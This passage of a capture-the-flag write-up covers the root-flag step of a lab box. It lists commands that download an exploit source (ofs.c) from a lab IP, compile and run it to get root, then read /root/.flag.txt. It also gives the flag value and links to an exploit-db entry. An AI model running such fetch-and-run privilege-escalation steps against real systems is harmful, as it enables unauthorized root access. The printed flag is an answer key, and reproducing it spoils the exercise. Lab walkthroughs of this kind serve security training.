 ![](<../../.gitbook/assets/Screenshot from 2022-02-21 22-19-34.png>)

#### What is the root flag?

```bash
wget http://10.6.9.176/ofs.c
cc ofs.c -o ofs
./ofs
ls -a /root
cat /root/.flag.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-02-21 22-40-35.png>)

{% hint style="success" %}
`568628e0d993b1973adc718237da6e93`
{% endhint %}

## Reference

{% embed url="https://www.shellhacks.com/retrieve-email-pop3-server-command-line" %}

{% embed url="https://www.exploit-db.com/exploits/37292" %}

